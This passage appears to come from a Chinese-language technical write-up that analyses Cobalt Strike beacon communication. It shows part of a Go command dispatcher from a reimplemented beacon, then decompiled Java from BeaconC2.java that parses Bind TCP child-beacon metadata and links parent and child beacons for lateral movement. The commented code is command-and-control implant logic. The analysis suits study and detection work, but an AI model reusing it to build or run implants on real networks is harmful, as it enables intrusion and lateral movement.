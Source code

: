                                     case config.CMD_TYPE_PORTFWD_STOP:                                    finalPacket = packet.MakePacket(13,[]byte("Please use shell rportfwd command"))                                    packet.PushResult(finalPacket)  
                                    case config.CMD_TYPE_CONNECT:                                    go command.Connect(cmdBuf)  
                                    case config.CMD_TYPE_CONNECT_LIVE:                                    go command.BeaconLive(cmdBuf)  
                                    case config.CMD_TYPE_UNLINK:                                    go command.Unlink(cmdBuf)  
                                    case config.CMD_TYPE_FILE_Browser:                                    go command.FileBrowser(cmdBuf)  
                                    default:                                    finalPacket = packet.MakePacket(13, []byte("Command not supported"))                                    packet.PushResult(finalPacket)                                }                            }                        }                    }                }            }        }    }}

  

 **0x03 Bind tcp Beacon通信过程**

  

了解了cs回连的http/https beacon的回连以及控制过程，我们再来看内网横向的Bind tcp beacon。

![](https://gitee.com/fuli009/images/raw/master/public/20220218134458.png)

  

 **3.1 解析bindtcp源数据**

  

任务返回类型为10的时候，表示返回的是connect的结果，解析代码在beacon/BeaconC2.java中。

  

这里调用的process_beacon_metadata函数解析源数据，和http/https
beacon解析源数据的过程一样。所以我们可以知道bindtcp beacon 上线包的格式如下：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    if (taskType == 10) { //beacon返回connect结果    childBeaconID = var5.readInt(); //子beacon id    var18 = var5.readInt(); //hint信息    rsaEncryptData = CommonUtils.bString(CommonUtils.readAll(var5)); //子beacon返回的rsa加密的源数据    BeaconEntry var9 = this.getCheckinListener().resolve(var1 + "");    //null    //父beacon的内网ip    //子beacon返回的rsa加密的源数据    //父beaconid    //hint    var10 = this.process_beacon_metadata((ScListener)null, var9.getInternal() + " ⚯⚯", CommonUtils.toBytes(rsaEncryptData), var1, var18);  
        //成功连接到横向bind beacon    if (var10 != null) {        this.pipes.register(var1 + "", childBeaconID + "");        if (var10.getInternal() == null) {            this.getCheckinListener().output(BeaconOutput.Output(var1, "established link to child " + CommonUtils.session(childBeaconID)));            this.getResources().archive(BeaconOutput.Activity(var1, "established link to child " + CommonUtils.session(childBeaconID)));        } else {            this.getCheckinListener().output(BeaconOutput.Output(var1, "established link to child " + CommonUtils.session(childBeaconID) + ": " + var10.getInternal()));            this.getResources().archive(BeaconOutput.Activity(var1, "established link to child " + CommonUtils.session(childBeaconID) + ": " + var10.getComputer()));        }  
            this.getCheckinListener().output(BeaconOutput.Output(var10.getId(), "established link to parent " + CommonUtils.session(var1) + ": " + var9.getInternal()));        this.getResources().archive(BeaconOutput.Activity(var10.getId(), "established link to parent " + CommonUtils.session(var1) + ": " + var9.getComputer()));    }}

  